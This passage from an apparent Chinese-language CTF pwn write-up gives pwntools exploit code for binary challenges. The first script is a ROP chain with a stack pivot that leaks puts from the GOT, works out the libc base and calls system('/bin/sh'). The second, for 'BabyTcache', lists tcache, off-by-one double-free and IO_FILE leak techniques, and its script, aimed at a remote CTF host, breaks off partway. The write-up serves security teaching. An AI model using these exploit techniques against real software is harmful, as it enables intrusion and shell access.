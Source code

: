 ```
puts_got=elf.got['puts'] 
read = 0x400682 
leave = 0x40069c 
p.recvuntil('suggestions:') 
p.send('a'*8*10+p64(0x602040+80)+p64(pop_rdi)+p64(puts_got)+p64(puts)+p64(read)) 
p.recvuntil('.\n') 
p.send('\x01'*0x10+p64(0x602040+80)+p64(leave)) 
puts=u64(p.recv(6).ljust(8,'\x00')) 
print hex(puts) 
libcbase=puts-libc.sym['puts'] 
system_addr=libcbase+libc.sym['system'] 
bin_sh=libcbase+libc.search("/bin/sh\x00").next() 
p.send('a'*8*10+p64(0x602040+100)+p64(pop_rdi)+p64(bin_sh)+p64(system_addr)) 
p.interactive()
```

### <a class="reference-link" name="BabyTcache"></a>BabyTcache

考点：

Tcache、构造重叠的堆块、利用 IO_FILE 结构体泄露 libc

分析：

1.利用改写 IO_write_base 泄露 libc

2.利用程序中的 Off by one 漏洞实现 double free

3.可以通过申请 7 个以上的 chunk 或者改写 chunk size 绕过程序对申请 chunk 大小的限制

exp：

```
from pwn import * 
#from LibcSearcher import LibcSearcher 
context(log_level='debug',arch='amd64') 
local=0 
binary_name='babytcache' 
if local: 
    p=process("./"+binary_name) 
    e=ELF("./"+binary_name) 
    libc=e.libc 
else: 
    p=remote("121.41.13.20",32772) 
    e=ELF("./"+binary_name) 
    libc=ELF("./libc-2.27.so") 
def z(a=''): 
    if local: 
        gdb.attach(p,a) 
        if a=='': 
            raw_input 
    else: 
        pass 
ru=lambda x:p.recvuntil(x) 
sl=lambda x:p.sendline(x) 
sd=lambda x:p.send(x) 
sla=lambda a,b:p.sendlineafter(a,b) 
ia=lambda :p.interactive() 
def leak_address(): 
    if(context.arch=='i386'): 
        return u32(p.recv(4)) 
    else : 
        return u64(p.recv(6).ljust(8,'\x00')) 

def add(len,data): 
```